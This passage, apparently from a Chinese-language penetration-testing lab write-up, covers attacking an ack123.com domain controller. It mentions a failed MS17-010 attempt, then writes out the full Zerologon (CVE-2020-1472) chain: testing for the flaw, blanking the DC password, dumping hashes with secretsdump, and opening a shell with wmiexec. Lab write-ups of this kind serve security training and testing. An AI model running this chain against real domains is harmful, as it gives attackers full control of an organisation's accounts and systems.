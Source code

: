 ```
[*] NetBios: 10.10.10.135    12server-data2.ack123.com           Windows Server 2012 R2 Standard 9600
```

域控为`10.10.10.133`，且存在`MS17-010`漏洞，`run post/multi/manage/autoroute`后尝试打但是一直会把域控打蓝屏导致利用失败，测试`Netlogon`漏洞，发现也存在。

![](./images/23.png)

这里利用`Netlogon`漏洞来直接打域控：

```bash
# 漏洞验证
python zerologon_tester.py DC_NETBIOS_NAME DC_IP_ADDR

# 置空DC的密码
python cve-2020-1472-exploit.py DC_NETBIOS_NAME DC_IP_ADDR

# 获取HASH，使用impacket包中的secretsdum.py来获取相关的HASH
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass

# 获取shell，获取HASH后，可以利用wmiexec.py登录，从而获取SHELL 
python wmiexec.py -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
```

![](./images/24.png)
